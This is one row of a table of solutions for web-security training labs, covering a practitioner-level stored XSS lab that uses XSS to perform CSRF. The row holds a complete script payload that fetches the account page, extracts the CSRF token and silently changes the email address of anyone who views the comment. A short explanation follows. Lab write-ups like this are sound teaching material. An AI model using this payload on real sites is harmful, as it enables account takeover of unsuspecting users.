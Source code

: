 |16    |Exploiting XSS to perform CSRF                                                                                           |<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() {     var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];     var changeReq = new XMLHttpRequest();     changeReq.open('post', '/my-account/change-email', true);     changeReq.send('csrf='+token+'&email=test@test.com') }; </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |issue a POST request to /my-account/change-email, with a parameter called email. There is an anti-CSRF token called ‘token’. The exploit loads the user account page, extracts the CSRF token and then uses the token to change the victims email address.  The script will make anyone who views the comment issue a POST request to change their email address to test@test.com                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |Practitioner, Stored XSS                    |